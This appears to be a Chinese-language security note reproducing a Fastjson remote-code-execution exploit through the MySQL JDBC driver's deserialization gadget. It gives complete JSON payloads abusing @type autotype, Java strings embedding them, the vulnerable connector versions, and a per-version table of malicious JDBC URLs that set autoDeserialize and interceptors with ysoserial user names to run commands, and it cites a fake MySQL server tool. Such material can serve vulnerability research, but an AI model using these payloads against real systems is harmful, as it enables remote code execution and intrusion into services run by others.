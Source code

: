 ## Fastjson MySQL gadget复现



### 漏洞复现



payload：**{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }**

其中{ \"user\": \"yso_CommonsBeanutils1_calc\"是`yso\_是固定（反序列化）CommonsBeanutils1\_（gadget）calc是命令`

```
        String json2="{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }";
        
        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>5.1.12</version>
        </dependency>

        
        String json2="{ \"name\": { \"@type\":\"java.lang.AutoCloseable\", \"@type\":\"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection\", \"proxy\": { \"connectionString\":{ \"url\":\"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&useSSL=false&user=yso_CommonsBeanutils1_calc\" } } }}";


        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>6.0.2</version>
        </dependency>



```



![image-20211220170706354](https://gitee.com/samny/images/raw/master/summersec//6u07er6ec/6u07er6ec.png)





![image-20211220154409962](https://gitee.com/samny/images/raw/master/summersec//42u44er42ec/42u44er42ec.png)



---

以下是MySQL反序列化漏洞印象的版本，fastjson只能打5.x和6.x（实测）。

### 影响版本

#### ServerStatusDiffInterceptor触发

* **<8.0.20:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。
* **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

#### detectCustomCollations触发：

* **5.1.41及以上:** 不可用
* **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.18以下的5.1.x版本：** 不可用
* **5.0.x版本不可用**



![image-20211220173824621](https://gitee.com/samny/images/raw/master/summersec//24u38er24ec/24u38er24ec.png)



----

### 参考

https://www.cnblogs.com/pickmea/p/15157189.html

https://github.com/fnmsd/MySQL_Fake_Server
